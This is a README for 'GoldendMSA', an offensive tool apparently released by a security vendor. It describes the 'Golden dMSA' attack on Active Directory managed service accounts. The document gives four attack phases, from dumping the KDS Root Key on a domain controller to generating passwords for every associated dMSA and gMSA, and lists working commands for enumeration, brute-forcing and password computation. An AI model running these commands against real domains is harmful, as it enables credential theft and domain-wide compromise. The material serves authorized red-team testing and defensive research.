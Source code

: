 # Golden dMSA

This tool exploits a new attack against delegated Managed Service Accounts called the "Golden DMSA" attack. The technique allows attackers to generate passwords for all associated dMSAs offline. 

Additional information is avaiable in this post [title](https://url).


## Attack steps
Phase 1: Key Material Extraction  (pre requirement of the attack) 

* Dump the KDS Root Key from the DC

Phase 2: Enumerate dMSA accounts  

* Brute-force or use LDAP to discover data on dMSA accounts in the forest - SamAccountName and SID. 

Phase 3: ManagedPasswordID guessing  

* Create a wordlist of possible values and identify the correct managedPasswordId and password hashes through targeted guessing. 

Phase 4: Password Generation  

* Generate valid passwords for any gMSA and dMSA associated with the compromised key.  

## Build

* Compile the tool with platform target of x64. 
* Tool was tested against target Framework of .NET Framework 4.7.2.
* When copying the tool's executable to the remote machine, please make sure to also copy the CommandLine.dll that is located in GoldendMSA folder.

## Usage

Couple examples of useful commands:

Computation of gMSA's passwords based on KDS Root key and ManadgedPasswordID:
```
$ GoldendMSA.exe compute  -s <sid> -k <KDS Root key> -d <domain name> -m <ManadgedPasswordID> 
```

Converts a base64 password of dMSA/ gMSA to NTLM, AES128, AES256:
```
$ GoldendMSA.exe convert -d <domain name> -u <username end with $> -p <base64 password>
```

Create a wordlist for dMSA's password bruteforcing:
```
$ GoldendMSA.exe wordlist -s <dMSA's sid> -d <dMSA's domain> -f <forest's domain> -k <id of kds root key>
```
![image](Assets/Wordlist.jpg)


Gathers info on dMSAs/gMSAs based on ldap or RID enumeration:
```
$ GoldendMSA.exe info -d <domain name> -m ldap
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -s <gMSA's sid>
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -r <number>
```
![image](Assets/Info.jpg)


Gathers info on KDS root keys (requires Enterprise admins permissions):
```
$ GoldendMSA.exe kds
$ GoldendMSA.exe kds -g <guid of KDS root key>
```
![image](Assets/Kds.jpg)


Gathers info on KDS root keys (requires SYSTEM permissions on a DC):
```
$ GoldendMSA.exe kds --domain <domain name>
```

Bruteforce dMSA's password:
```
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -i <kds root key id> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -t
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -i <kds root key id> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -v
```
![image](Assets/Bruteforce.jpg)

## License

Disclaimer: This project is licensed under the terms of the BSD 3-Clause license, and is provided for educational and informational purposes only. It is intended to promote awareness and responsible remediation of security vulnerabilities that may exist on systems you own or are authorized to test. Unauthorized use of this information for malicious purposes, exploitation, or unlawful access is strictly prohibited. Semperis does not endorse or condone any illegal activity and disclaims any liability arising from misuse of the material. Additionally, Semperis does not guarantee the accuracy or completeness of the content and assumes no liability for any damages resulting from its use.

## Reference

- https://github.com/Semperis/GoldenGMSA